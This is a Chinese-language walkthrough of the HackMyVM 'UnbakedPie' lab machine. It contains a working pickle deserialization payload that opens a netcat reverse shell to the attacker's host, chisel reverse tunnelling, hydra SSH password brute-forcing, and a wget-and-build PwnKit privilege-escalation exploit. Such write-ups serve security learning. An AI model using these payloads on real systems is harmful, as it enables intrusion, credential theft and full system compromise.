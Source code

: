 ```yaml
---
{"created":"2024-11-28T17:42:52.177+08:00","tags":["HMV","PwnKit提取","容器逃逸","pickle反序列化","端口转发","隧道搭建"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"ch4rm","aliases":null,"permalink":"/24-渗透/HMV/32.UnbakedPie/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/32.UnbakedPie#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/32.UnbakedPie#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/32.UnbakedPie#3. python反序列化\|3. python反序列化]]
- [[24-渗透/HMV/32.UnbakedPie#4. docker逃逸&提权\|4. docker逃逸&提权]]
- [[24-渗透/HMV/32.UnbakedPie#5. 端口转发 与SSH爆破\|5. 端口转发 与SSH爆破]]
	- [[24-渗透/HMV/32.UnbakedPie#5.1. [[../../26-工具使用/chisel 使用\|chisel]] 搭建端口转发|5.1. [[26-工具使用/chisel 使用\|chisel]] 搭建端口转发]]
	- [[24-渗透/HMV/32.UnbakedPie#5.2. hydra爆破密码\|5.2. hydra爆破密码]]
- [[24-渗透/HMV/32.UnbakedPie#6. 提权\|6. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=UnbakedPie
**作者** [ch4rm](https://hackmyvm.eu/profile/?user=ch4rm)
**难度** ⭐️⭐️⭐️⭐️⭐️

## 2. 信息收集
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# nmap -sS 192.168.56.27 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-28 17:53 CST

Nmap scan report for 192.168.56.27
Host is up (0.0010s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
5003/tcp open  filemaker
MAC Address: 08:00:27:10:44:F1 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 959.54 seconds
```

网站
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128182147.png)
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128183615.png)
 
`Server WSGIServer/0.2 CPython/3.8.6`
Python写的

上面有一个搜索框
抓包看看数据
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128202309.png)
`gA` 开头 一眼 [python反序列化](../../20-网安/21-CTF/python/python反序列化.md)

对这个进行解码看一下
```python
import base64
a='gASVCgAAAAAAAACMBjEyMzEyM5Qu'
print(base64.b64decode(a))

输出
b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
```

```python
import pickle

p = b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
d = pickle.loads(p)
print(d)

输出
123123
```

## 3. python反序列化

123123就是我们输入的明文搜索内容

那我们直接构建一个反弹shell的payload

![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128230329.png)


```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("nc -e /bin/bash 192.168.80.5 1111 ",))
print(base64.b64encode(pickle.dumps(P())))

输出：
gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu
```
> [!warning]
> 这里一定要用Linux生成payload，因为其使用了 `os.system` 这个函数在linux与windows有所不同。所以要与靶机的系统相同。使用Linux生成payload


```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# python payload.py
b'gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu'

```
然后在这个位置随便搜索一下。抓个包替换掉 `search_cookie`
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120622.png)
开启监听 发包 反弹shell
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120703.png)
## 4. docker逃逸&提权
进来后会发现自己是root权限
但其实是在docker里面
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120834.png)
可以在根目录看到有一个 `.dockerenv` 文件。这就是在容器里面的特征之一

上传 [cdk](../../26-工具使用/CDK使用.md) 进行检测

先看一下内核版本
```bash
(remote) root@8b39a559b296:/tmp# uname -a
Linux 8b39a559b296 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 GNU/Linux
```

试了好几个发现都不能成功，还是在看看其他利用点吧

看一下历史记录
```bash
history
```
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201135010.png)
这里面可以看到容器进行了一个内网的ssh连接 用户名是 `ramsey` IP是 `172.17.0.1`
这个ip可能就是主机IP 

我们尝试进行ssh连接一下
```bash
(remote) root@8b39a559b296:/tmp# ssh ramsey@172.17.0.1
bash: ssh: command not found
```
发现容器并没有安装ssh。 可能是已经杯卸载了

但是主机是不是开放了 ssh服务这对我们十分重要
在开始进行端口扫描时 就可以发现主机只对外开放了5003端口 并没有22端口
我们看看主机对内开放什么端口
```bash
(remote) root@8b39a559b296:/tmp# nc -znv 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 5003 (?) open
(UNKNOWN) [172.17.0.1] 22 (ssh) open
```
可以看到对内是开放了ssh服务的

## 5. 端口转发 与SSH爆破
此时我们知道了主机 ssh的用户名与ip
**那么我们这时候只需要搭建一个容器与kali的隧道，使得主机可以访问容器内网，然后在kali上进行ssh爆破即可**


### 5.1. [[26-工具使用/chisel 使用\|chisel]] 搭建端口转发
使用kali给容器传一个[[26-工具使用/chisel 使用\|chisel]]

kali开启反向监听
```bash
┌──(root㉿kali)-[/home]
└─# ./chisel server -p 9999 --reverse
2024/12/01 14:07:07 server: Reverse tunnelling enabled
2024/12/01 14:07:07 server: Fingerprint sP2BcLu3iBtJ8s51afwrmDlqpOsmsqVe64WNopPvgQM=
2024/12/01 14:07:07 server: Listening on http://0.0.0.0:9999

```

容器连接并配置反向端口转发
```bash
(remote) root@8b39a559b296:/tmp# ./chisel client 192.168.80.5:9999 R:8888:172.17.0.1:22
2024/12/01 06:09:54 client: Connecting to ws://192.168.80.5:9999
2024/12/01 06:09:54 client: Connected (Latency 799.51µs)

```

这时候访问就可以通过kali本地的 `127.0.0.1:8888` 访问到容器的 `172.17.0.1:22`

### 5.2. hydra爆破密码

```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:8888
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-01 14:12:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:8888/
[8888][ssh] host: 127.0.0.1   login: ramsey   password: 12345678

```
成功获取到密码 `12345678`

ssh连接获取flag
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# ssh ramsey@127.0.0.1 -p 8888
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
ED25519 key fingerprint is SHA256:B6SoW4WBwsc2n9NynSce9+R0E44T4YkZVRxD5y5Muhc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (ED25519) to the list of known hosts.
ramsey@127.0.0.1's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.


Last login: Sat Oct  3 22:15:57 2020 from 172.17.0.2


ramsey@unbaked:~$ cat user.txt
Unb4ked_W00tw00t

```
## 6. 提权
使用 [[26-工具使用/LZS使用\|LZS]] 进行提权检测
发现可以用Pwnkit提权
直接提权
```bash
bash lzs.sh //提权检测
wget http://192.168.80.5/main.tar.gz
tar -zxvf main.tar.gz
cd CVE-2021-4034-main/
make
./cve-2021-4034
```

> pwncat下载的 `mian` 默认是zip压缩的。但是靶机上是没有 `unzip` 的所以要先在外面解压然后用`tar`打包 再传给靶机
```bash
root@unbaked:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(ramsey)
root@unbaked:/tmp# cat /root/root.txt
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: Unb4ked_GOtcha!

```

